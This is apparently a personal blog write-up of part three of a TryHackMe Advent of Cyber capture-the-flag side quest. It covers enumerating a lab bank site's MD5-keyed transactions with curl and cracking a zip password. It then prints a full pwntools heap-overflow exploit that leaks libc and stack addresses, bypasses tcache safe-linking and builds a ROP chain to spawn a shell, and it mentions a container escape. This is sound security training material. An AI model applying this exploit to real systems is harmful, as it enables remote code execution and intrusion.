 * Advent of Cyber Side Quest (Part 3)

21 December 2024

Part three of the TryHackMe Advent of Cyber Side Quest!  See [[https://0x85.org/sidequest2024-1.html][Part 1]] for context.

*** The Keycard
The main quest room was about race conditions in web apps, using a simulated banking site.  By this point I was habitually running ~nmap~ and ~dirb~ scans against each main quest machine, and poking around at what I found.  Today the quest machine was running on port 5000, which indicates it's likely flask.  Additionally, ~dirb~ found a ~/transactions~ subdirectory on the main server and after poking around it became apparent that the transaction IDs were just MD5 sums of integers, counting up in sequence starting from 1337.  I tried enumerating all the transactions, which required a session cookie that I could get from the browser's developer tools since the challenge provides valid credentials:

#+begin_src bash
  for id in {1330..1340}; do curl -b "session=eyJuYW1lIjoicmVzZXJ2ZSIsInVzZXIiOjEwMH0.Z1xQDQ.cJ5cWF8zMQl8xDsnYnOXsm25P8Y" -L "http://10.10.97.169:5000/transactions?id=$(echo -n "$id" | md5sum | awk '{print $1}')"; done
#+end_src

Scrolling through that list revealed one transaction whose ID was very obviously base64-encoded data (it ended with ~=~), which cyberchef decoded to ~/secret/0opsIDidItAgain_MayorMalware1337.png~, which was unsurprisingly the keycard.

*** T3: Escaping the Blizzard
This one was by far the most difficult challenge of the five, and it took me almost two weeks to solve.  I don't mind at all admitting that I needed guidance from more experienced hackers on this one, because it was /difficult/!

Once the machine was up and running, with the firewall unlocked by putting the keycard password into the input field on port 21337, I ran a standard port and subdirectory scan.

~nmap~ turned up the following:

#+begin_src
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1337/tcp  open  waste 
21337/tcp open  unknown
#+end_src

And ~dirb~ discovered (among others) a ~/backup~ directory which contained:

- ~enc~, an x64 ELF
- ~recommended-passwords.txt~, looking like a wordlist
- ~secure-storage.zip~, a passworded zip archive

None of the "recommended passwords" in the text file opened the zip.  I tried John the Ripper but no luck.  I asked chatGPT to write me a one-liner to run each word in the wordlist through the ~enc~ binary, which produced a bunch of hash-like strings.  I then tried all those on the zip and sure enough one of them (~30510d980c6bd5b3898dd0836426807b~) was the correct password.  That zip file contained the first flag, a dockerfile, a binary called secureStorage, a libc, and an ld-linux.

The libc appeared to be version 2.39 which at the time of this writing is about 6 months old, and the binary appeared to be a copy of the service running on port 1337 on the machine.  Decompiling the secureStorage binary with Ghidra revealed a buffer overflow vulnerability:  The user can write up to 16 bytes past the end of what ~malloc()~ allocates.  This is thus a heap overflow, but the confusing part was that the binary didn't call ~free()~ anywhere.

Cue several days of reading, talking to Pickman's Model, and banging my head both literally and metaphorically against my keyboard.  I've done a few stack overflows on HackTheBox but never a heap overflow, and to complicate things this binary had all the relevant protections.  It was compiled PIE, had the nx bit set, the system was running ASLR, and the version of libc was too recent for many well-known attacks to work (because of safe linking, removal of ~free~ hooks, etc.).

Eventually I discovered [[https://github.com/gfelber/House_of_Tangerine][this github repository]] which helped a lot in understanding wtf was going on.  In general, the idea is that the heap is divided into different chunks, and those chunks are tracked in linked lists that glibc calls "bins", with different bins for differently-sized chunks.  The smallest chunks are called the "tcache bins" and they're thread-local but are otherwise identical to the "fast bins".  All those chunks get allocated from the initial large bit of memory called the top chunk.  With each successive call to malloc, the top chunk gets smaller and smaller (assuming no calls to free are made) and then at some point the top chunk is too small, so the allocator has to ask the OS for more memory which becomes a new top chunk, and the old top chunk gets put into the bins.

The important bit is that chunks are generally allocated adjacent to each other in memory, save for a "fencepost" of metadata headers that contain describe whether the previous chunk is in use, the size of the chunk, whether it was ~mmap~'ed, etc.  What that means is with our heap overflow, we can write into the header of the adjacent chunk which means, for example, we can change the size and ~prev_inuse~ flags which allows us to manipulate the allocator.

So in general we need to first read the pointer to ~main_arena~.  Arenas, in this context, are contiguous chunks of memory, and there's a struct at the heap base that contains a pointer to the main arena.  If we can find this pointer then we can calculate the offset to the base address of libc, and from there we can [[https://blog.osiris.cyber.nyu.edu/2019/04/06/pivoting-around-memory/][pivot to the stack]].

Once we get a stack address we can find rop gadgets, create a rop chain, and write that to the ~main()~ return pointer which will cause a "return to libc" attack via which we can pop a shell.

I'm including the code I used but it's an absolute fucking mess full of unnamed constants from ghidra or [[https://libc.rip][libc.rip]].  What's more, it only worked from the AttackBox, which is TryHackMe's in-browser version of Kali.  The UX is awful but the network is consistent because it runs in AWS the same as the target VMs, whereas my flaky home wifi was causing problems interacting with the binary over the network.

#+begin_src python
  from pwn import *
  libc = ELF('./libc.so.6')
  ld = ELF('./ld-linux-x86-64.so.2')
  secureStorage = ELF('./secureStorage')

  p = process("./secureStorage")
  # p = remote("10.10.105.189", 1337)

  def prompt():
      r = p.recvuntilS(b">> ")
      if '[4] Exit Permit Manager' not in r:
	  print("Unable to wait for prompt")
	  print(r)
	  sys.exit(1)

  def create(index, size, data=None):
      p.sendline(b'1')
      p.recvuntil(b'Enter permit index:\n')
      p.sendline(str(index).encode())
      p.recvuntil(b'Enter entry size:\n')
      p.sendline(str(size).encode())
      r = p.readline()
      if r != b'Enter entry data:\n':
	  print(f"create {index} failed:")
	  print(r)
	  sys.exit(1)
	  p.send(data)
	  prompt()

  def edit(index, data):
      p.sendline(b'3')
      p.recvuntil(b'Enter entry index:\n')
      p.sendline(str(index).encode())
      p.recvuntil(b'Enter data:\n')
      p.send(data)
      prompt()

  def show(index):
      p.sendline(b'2') 
      p.recvuntil(b'Enter entry index:\n')
      p.sendline(str(index).encode())
      r = p.recvuntil(b"\n[1] Create Permit Entry", drop=True)
      prompt()
      return r

  def exploit():
      # Extract top chunk size
      create(0, 24, b"A" * 24)
      topchunksize = "0x" + show(0)[24:][::-1].hex()

      # Reduce top chunk size by overflow to sysmalloc_int_free and free it to unsorted bin
      edit(0, b"A"*24 + p64(eval(topchunksize) & 0xfff))
      create(1, 0xf98, b"B" * 0xf98)

      # malloc the chunk freed to unsorted bins and leak main_arena pointer
      create(2, (eval(topchunksize) & 0xfff) - 0x30, b"C" * 8)
      main_arena = "0x"+show(2)[8:][::-1].hex()

      # calculate libc base 
      libc.address = (eval(main_arena) - 0x60) - libc.symbols["main_arena"]
      newtopchunksize = "0x"+show(1)[0xf98:][::-1].hex()
    
      # free it to tcache bin same as before
      edit(1, b"B" * 0xf98 + p64(eval(newtopchunksize) & 0xfff))
      create(3, 0xf98, b"D" * 0xf98)
    
      # bypass tcache safe linking
      edit(1, b"B"*0xfa0)
      tcache_leak = "0x"+show(1)[0xfa0:][::-1].hex()[1:]
      heap_base = eval(tcache_leak+"000") - 0x21000 #ghidra
      edit(1, b"B" * 0xf98 + p64((eval(newtopchunksize) & 0xfff) - 0x20))
    
      edit(3, b"D" * 0xf98 + p64(eval(newtopchunksize) & 0xfff))
      create(4, 0xf98, b"E" * 0xf98)
      tcache_xor = (heap_base + 0x43000) >> 12
      target = tcache_xor ^ (libc.address + 0x20ad40)
    
      # Change the tcache entry adjacent to target
      edit(3, b"D" * 0xf98 + p64((eval(newtopchunksize) & 0xfff) - 0x20) + p64(target))

      create(5, 0x38, b"F")
      create(6, 0x38, b"G"*24)
    
      stack_leak = "0x"+show(6)[24:][::-1].hex()
      newnewtopchunksize = "0x"+show(4)[0xf98:][::-1].hex() # can't think of better name
    
      edit(4, b"E" * 0xf98 + p64(eval(newnewtopchunksize) & 0xfff))
      create(7, 0xf98, b"H" * 0xf98 + p64(eval(newnewtopchunksize) & 0xfff))
      create(8, 0xf98, b"I" * 0xf98)

      # set up a rop chain
      binsh = next(libc.search(b"/bin/sh"))
      system = libc.sym["system"]
      exit = libc.sym["exit"]
      libc_rop = rop.ROP(ELF('./libc.so.6'))
      rdi_rop = libc.address + libc_rop.rdi.address
      ret_rop = libc.address + libc_rop.ret.address

      rop_chain = [
	  ret_rop,
	  rdi_rop,
	  binsh,
	  ret_rop,
	  system,
	  exit
      ]

      rop_chain = b''.join(p64(addr) for addr in rop_chain)

      print(len(rop_chain))

      tcache2_xor = (heap_base + 0x87c00) >> 12
      target2 = tcache2_xor ^ (eval(stack_leak) - 0x138)
      edit(7, b"H" * 0xf98 + p64((eval(newnewtopchunksize) & 0xfff) - 0x20) + p64(target2))

      create(9,0x38,b"J")
      create(10,0x38, rop_chain)

  exploit()

  # send "4" to cause main to return and trigger the rop
  p.interactive()
#+end_src

*** Yuck
With that out of the way I found myself in a shell on the target machine, and the second flag was in the shell's home directory.  The binary was running in a docker container, and to escape that I used the [[https://github.com/cdk-team/CDK][CDK toolkit]], which allowed almost comically-easy access to the third and final flag after the absolute slog to get the shell.

Holy shit that was difficult.  Onto [[https://0x85.org/sidequest2024-4.html][Task 4]]!
